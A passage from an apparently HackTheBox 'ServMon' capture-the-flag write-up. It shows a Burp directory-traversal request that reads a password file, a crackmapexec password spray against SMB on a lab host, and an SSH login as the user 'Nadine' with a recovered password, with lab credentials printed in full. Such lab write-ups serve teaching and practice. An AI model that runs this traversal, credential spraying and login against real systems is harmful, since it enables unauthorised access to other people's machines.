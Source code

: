 
We can now change the request in the repeater tab to read Passwords.txt from Nathans desktop instead.

![Burp repeater view](/assets/htb/ServMon/burp-dirtraversal.png)

Let us save the retrieved passwords to a file for later usage.

### Getting user shell
Using crackmapexec we can easily test large sets of possible credentials.
```bash
root@darkness:~# crackmapexec smb 10.10.10.184 -u Nadine -p pws.txt
SMB         10.10.10.184    445    SERVMON      [*] Windows 10.0 Build 18362 x64
SMB         10.10.10.184    445    SERVMON      [-] SERVMON\Nadine:1nsp3ctTh3Way2Mars!
SMB         10.10.10.184    445    SERVMON      [-] SERVMON\Nadine:Th3r34r3To0M4nyTrait0r5!
SMB         10.10.10.184    445    SERVMON      [-] SERVMON\Nadine:B3WithM30r4ga1n5tMe
SMB         10.10.10.184    445    SERVMON      [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
```
Seems like Nadine can login to the system with the password `L1k3B1gBut7s@W0rk`! After trying to list SMB-shares and logging in using winrm without any success, I remembered that SSH was open.

```powershell
root@darkness:~# ssh nadine@10.10.10.184
nadine@10.10.10.184 password: L1k3B1gBut7s@W0rk
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```
We can login as Nadine with the found password via SSH and read user.txt.
```powershell
nadine@SERVMON C:\Users\Nadine>type Desktop\user.txt
1e8b6***************************
```

# Privesc to system
Now that we are user, let us enumerate the system and find a privilege escalation vector to system.

## Enumerating Port 8443
